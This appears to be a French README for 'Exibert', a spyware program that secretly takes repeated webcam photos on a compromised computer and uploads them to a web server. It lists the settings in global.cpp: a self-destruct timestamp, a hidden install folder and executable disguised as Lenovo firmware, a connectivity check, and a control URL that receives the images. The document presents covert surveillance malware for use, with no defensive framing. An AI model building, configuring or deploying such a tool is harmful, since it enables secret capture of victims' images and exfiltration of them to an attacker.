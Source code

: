 # Exibert
Exibert permet de prendre régulièrement plusieurs photos de la webcam d'un ordinateur préalablement piégé et d'envoyer ces dernières sur un serveur web.

#### Configuration 

Dans le fichier `global.cpp` plusieurs paramètres sont disponibles :

 - `float GLOBAL_expirationTimestamp = 1560616327000;` Temps UNIX qui
   déclenche l'autodestruction du programme.
- `QString GLOBAL_nameInstallPath = "Lenovo";` Nom du sous-répertoire où sera stocké le programme (lui même sera dans ProgramData).
- `String GLOBAL_nameInstallRun = "LenovoFirmware.exe";` Nom du programme.
- `QString GLOBAL_networkTestUrl = "http://support.lenovo.com/us/en/";` URL qui sera testé pour détecter la présence d'une connexion réseau opérationnelle.
- `QString GLOBAL_networkSendUrl = "http://url.ntd/control.php";` URL de la page contrôle qui reçoit les images.
